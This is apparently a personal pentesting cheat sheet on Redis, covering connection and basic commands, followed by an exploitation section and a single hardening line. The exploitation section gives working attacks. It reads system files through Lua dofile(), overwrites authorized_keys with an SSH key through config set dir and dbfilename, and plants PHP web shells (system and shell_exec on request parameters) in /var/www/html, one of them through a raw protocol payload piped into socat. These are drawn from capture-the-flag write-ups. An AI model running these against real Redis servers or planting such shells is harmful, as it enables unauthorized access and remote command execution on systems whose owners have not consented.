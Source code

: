 # Redis
## Introduction to Redis

- Key value pair database
- (nil) mean does not exist

## Connecting
```bash
redis-cli -h $IP -p $port -a $password -n $databasenumber
```

## Concepts
```sql
info 	-- server info
CONFIG GET * --  list of all active configuration variables you can change

```
Keyspace section is the main dictionary of each database

## Useful Commands
```sql
select $database/$table
keys * # all keys
get $keyname

# CMD KEY
config get * # retrieve current configuration of the database
config get dir # windows directory command

get user	
set user


```

[flushall](https://redis.io/commands/flushall/)
```bash
# Delete all the keys of all the existing databases, not just the currently selected one. This command never fails.
flushall [ASYNC | SYNC]
```

## Exploitation

```sql
eval dofile('/etc/passwd') 0 # enumerating files, with lua script dofile()
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0 # enumerating files, with lua script dofile()
```

[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
```bash
$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? That’skinda trivial.
$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get di
1) "dir"
2) "/Users/antirez/.ssh"
3) 192.168.1.11:6379> config set dbfilename "authorized_keys"
4) OK
5) 192.168.1.11:6379> save
6) OK
```

[0xdf variation for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) - White space required!
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
cat cmd.php | redis-cli -x set subscribetoippsecandread0xdf
redis-cli -h 127.0.0.1 config set dir /var/www/html/
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
```

[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www) prefers *to talk raw Redis. Have a look here [https://www.compose.com/articles/how-to-talk-raw-redis/](https://www.compose.com/articles/how-to-talk-raw-redis/) and here [https://redis.io/topics/protocol](https://redis.io/topics/protocol). So, basically, we can do something like this:*
```bash
echo -ne '*1\r\n$8\r\nFLUSHALL\r\n*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$32\r\n<?php shell_exec($_GET["e"]); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$5\r\nz.php\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$46\r\n/var/www/html/8924d0549008565c554f8128cd11fda4\r\n*1\r\n$4\r\nSAVE\r\n' | /tmp/socat - TCP:redis:6379
```

## Hardening

[Redis force Authentication](https://redis.io/docs/management/security/#authentication)
```bash
sudo sed -i 's/# requirepass/requirepass/g' /etc/redis/redis.conf
```
## References

[Redis Commands](https://redis.io/commands/)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
[Lzone](https://lzone.de/cheat-sheet/Redis)
[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
[0xdf Writeup for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) 
[Redis force Authentication](https://redis.io/docs/management/security/#authentication)